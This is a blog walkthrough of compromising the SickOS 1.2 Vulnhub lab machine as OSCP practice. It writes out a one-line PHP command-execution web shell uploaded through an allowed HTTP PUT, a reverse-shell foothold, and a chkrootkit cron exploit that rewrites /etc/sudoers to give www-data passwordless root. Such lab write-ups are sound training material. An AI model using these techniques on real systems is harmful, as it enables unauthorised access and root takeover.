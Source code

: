 ```yaml
---
layout: post
title: "Sick OS 1.2"
date: 2020-08-19
ctf: true
excerpt: "Walkthrough for Sick OS 1.2 on Vulnhub"
tags: [OSCP, chkrootkit, privilege escalation, curl, nmap http-put]
comments: false


---
```


[SickOS 1.2](https://www.vulnhub.com/entry/sickos-12,144/) a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![SickOS 1.2 netdiscover]/assets/img/SickOS1.png)

Next I ran **threader3000** and let it run its recommended nmap scan.

![SickOS 1.2 threader3000 nmap]/assets/img/SickOS2.png)

It appears that SSH and HTTP are open. I pulled up the main website and was presented with the following.

![SickOS 1.2 website]/assets/img/SickOS3.png)

I decided to run **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt -t 50** to enumerate the website. It uncovered a **/test** subdirectory.

![SickOS 1.2 gobuster]/assets/img/SickOS4.png)

I navigated to this page, and it appears to list contents of this directory, which has nothing in it.

![SickOS 1.2 /test]/assets/img/SickOS5.png)

I looked around and didn't see anything we could immediately exploit and there were not any other uncovered pages. I decided to use **curl -X OPTIONS -v http://[machine ip]/test** to see what was allowed in this directory. I uncovered that **PUT** was allowed.

![SickOS 1.2 curl]/assets/img/SickOS6.png)

With this discovery, I used **nmap [machine ip] -p 80 --script http-put --script-args http-put.url='/test/shell.php', http-put.file='[location to reverse shell file]'**. I used the reverse shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

![SickOS 1.2 nmap http-put]/assets/img/SickOS7.png)

I then tested this with a reverse shell, but unfortunately it didn't work. I instead created a php file with **\<?php $cmd=$_GET['cmd'];system($cmd);?\>** in it, and saved it as CommandExecution.php. I then uploaded it the same way I uploaded the reverse shell in the prior step.

![SickOS 1.2 nmap http-put 2]/assets/img/SickOS8.png)

Next, I opened a reverse shell listener on port 443 on my attacker computer.

![Sick OS 1.2 nc listener]/assets/img/SickOS9.png)

After trial and error, I discovered that running a Python reverse shell with the command injection script worked, and gave us an initial foothold on the victim PC.

![Sick OS 1.2 python reverse shell]/assets/img/SickOS10.png)

Next, I ran who and it revealed we have a shell as **www-data**, I then ran **python -c 'import pty; ptw.spawn("/bin/sh")'** to upgrade my shell to a TTY shell.

![Sick OS 1.2 www-data shell]/assets/img/SickOS11.png)

Next, I tried navigating to the tmp directory and using wget to copy over linpeas for enumeration, but that was unsuccessful. However, we knew we could use nmap (as we had done twice earlier) to copy over files. I did this to copy over linpeas.

![Sick OS 1.2 nmap http-put 3]/assets/img/SickOS12.png)

Next, I ran **chmod +x linpeas.sh** to make linpeas executable and started it with **./linpeas.sh**.

![Sick OS 1.2 chmod +x]/assets/img/SickOS13.png)

Linpeas returned some interesting information.

![Sick OS 1.2 linpeas 1]/assets/img/SickOS14.png)

![Sick OS 1.2 linpeas 2]/assets/img/SickOS15.png)

![Sick OS 1.2 linpeas 3]/assets/img/SickOS16.png)

It appears that the kernel is exploitable and gcc is installed to compile exploits. **chrootkit** is also setup as a cron job and some versions are vulnerable to exploit. I ran **chkrootkit -V** to see the version that was installed.

![Sick OS 1.2 chkrootkit -V]/assets/img/SickOS17.png)

Back on our attacker pc, I ran **searchsploit chkrootkit**. One of the results returns the version that is installed on the victim machine!

![Sick OS 1.2 searchsploit chkrootkit]/assets/img/SickOS18.png)

Next, I ran **searchsploit -x 33899** to view the contents of this file. It tells you how to exploit **chkrootkit **.

![SickOS 1.2 searchsploit -x 33899]/assets/img/SickOS19.png)

I navigated to the tmp folder with **cd /tmp** and ran **echo "chmod 777 /etc/sudoers" > update** and made it executable with **chmod +x update**. I then waited a couple of minutes for this to be triggered.

![Sick OS 1.2 update file]/assets/img/SickOS20.png)

I then ran **ls -al /etc |grep sudoers**, which showed that the permissions on this file had been updated!

![Sick OS 1.2 ls -al /etc]/assets/img/SickOS21.png)

Next, I ran **echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers** to give the www-data the ability to run anything as root with sudo with no password.

![Sick OS 1.2 modify /etc/sudoers]/assets/img/SickOS22.png)

Next, I ran **sudo su**, which didn't work because permissions on /etc/sudoers should be 440.

![Sick OS 1.2 sudo su failed]/assets/img/SickOS23.png)

Next, I went back to the /tmp directory and updated the update file with **echo "chmod 0440 /etc/sudoers" > update**. I waited a couple of minutes for this to take effect.

![Sick OS 1.2 modify update file]/assets/img/SickOS24.png)

I then ran **ls -al /etc|grep sudoers**, which showed the permissions had been changed back to the proper permissions. I then ran **sudo su** which gave me a root shell.

![Sick OS modify sudoers permissions]/assets/img/SickOS25.png)

I then ran **cd /root** followed by **ls -al**. There was a flag file present, which I viewed the contents of with **cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt**, which showed the information below!

![]/assets/img/SickOS26.png)
